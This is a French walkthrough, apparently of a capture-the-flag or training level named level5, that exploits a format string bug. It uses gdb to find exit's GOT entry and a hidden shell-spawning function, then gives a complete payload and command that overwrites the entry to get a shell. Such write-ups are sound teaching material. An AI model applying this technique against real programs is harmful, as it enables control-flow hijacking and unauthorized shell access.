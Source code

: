 # Format String Exploitation

En décompilant l'exécutable, on se rend compte qu'il fait appel à la fonction `printf` puis, dans un second temps, à `exit`. On remarque aussi la présence d'une fonction `o` qui n'est jamais appelée et qui semble lancer un appel `system` avec `"/bin/sh"` en argument.

L'objectif est donc d'utiliser `printf` pour tenter de faire appel à la fonction `o`. La solution que nous avons trouvé est de remplacer l'adresse de la fonction `exit`, par l'adresse  de la fonction `o`.

Il nous faut d'abord trouver l'adresse de ces deux fonctions. En utilisant `gdb`, on exécute :
```
> gdb level5
[...]
```

---
**Adresse de `o`**

```
> (gdb) x o
0x80484a4 <o>:	0x83e58955
```
L'adresse de la fonction `o` est `0x80484a4`

**Adresse de `exit`**

Pour trouver l'adresse de `exit`, on va trouver l'endroit ou le programme y fait appel.
```
> (gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	    push   %ebp
   0x080484c3 <+1>:	    mov    %esp,%ebp
   0x080484c5 <+3>:	    sub    $0x218,%esp
   0x080484cb <+9>:	    mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
`call` étant une instruction raccourcie, on va désassembler cette instruction :
```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	    jmp    *0x8049838
   0x080483d6 <+6>:	    push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
On remarque que ce `call` fait un `jump` à l'adresse `0x8049838`, qui est en fait l'adresse de `exit`.

L'adresse de `exit` est donc `0x8049838`.

---

À chaque utilisation de la faille `format string`, il est important de connaitre l'emplacement mémoire exact où `printf` écrit pour exploiter cette écriture.

Pour cela, on `break` sur l'instruction suivant l'appel à `printf`.
```
> (gdb) b *0x080484f8
[...]
```
On `run` puis on fourni en entrée standard 4 caractères `A` ainsi que `%1$p` qui vas nous permettre d'imprimer le premier argument de `printf`.
```
> (gdb) r
AAAA%p
AAAA0x200
```
Nous savons donc que le contenu du premier argument de `printf` est `0x200`. 

Nous allons maintenant determiner à quelle adresse a été écrite notre chaine de caractère par rapport au premier argument de `printf`.
```
printf_offset = adresse_buffer - adresse_1er_argument
```

---

**Adresse du premier argument**

En imprimant les premiers registres depuis `esp`, on est capable de retrouver notre premier argument affiché par notre `printf` précédement.
```
> (gdb) x/10wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
                        ^
                        1er argument
0xbffff510:	0x70243125	0xb7e2000a	0x00000001	0xb7fef305
0xbffff520:	0xbffff578	0xb7fde2d4
```
Notre premier argument est donc stocké à l'adresse de `esp+0x04`.
```
> (gdb) x $esp+0x04
0xbffff504:	0x00000200
```
L'adresse du premier argument est `0xbffff504`.

**Adresse du `buffer`**

L'adresse du buffer est contenue dans le premier registre pointé par `esp`.
```
> (gdb) x $esp
0xbffff500:     0xbffff510
> (gdb) x 0xbffff510
0xbffff510:	    0x41414141
```
L'adresse du `buffer` est `0xbffff510`.

--- 

On peut donc remplacer les inconnues de notre équation :
```
printf_offset = adresse_buffer - adresse_1er_argument
              = 0xbffff510 - 0xbffff504
              = 0xc
              = 12 (base 10)
```
On divise notre résultat par `4` car chaque registre contient 4 octets. Puis on ajoute `1` pour pointer sur notre `buffer` :
```
12 / 4 + 1 = 4
```
Nous allons devoir utiliser le `4ème` argument de `printf`.

On reprend ensuite la même logique que le `level3`. De manière abstraite, voici comment nous allons construire notre commande :
```
[adresse_exit] [adresse_o - 4] [%4$n]
^              ^
4 octets       adresse_o
               octets
```

Nous écrivons l'adresse de `exit` avec la notation `little-endian` :
```
\x38\x98\x04\x08
```
Nous pouvons écrire un grand nombre de caractère sans risquer un `overflow` grace au modifier `%d`. Donner un nombre en modifier à `%d` permet d'imprimer un `buffer` qui ne sera pas stocké dans la stack.
```
adresse_o = 0x080484a4
          = 134513828
```
On retire `4` en raison des `4` octets affichés précédement.
```
134513828 - 4 = 134513824
```
```
%134513824d
```
Enfin on indique à `printf` d'imprimer le nombre de caractère écrit à l'adresse de `exit` avec le modifier `%n`. L'adresse de `exit` étant stockée dans le `4ème` argument :
```
%4$n
```
Notre chaine de caractères à envoyer au programme sera la suivante :
```
"\x38\x98\x04\x08" + "%134513824d" + "%4$n"
```
On exécute donc :
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /var/tmp/command
```
```
cat /var/tmp/command - | ./level5
```
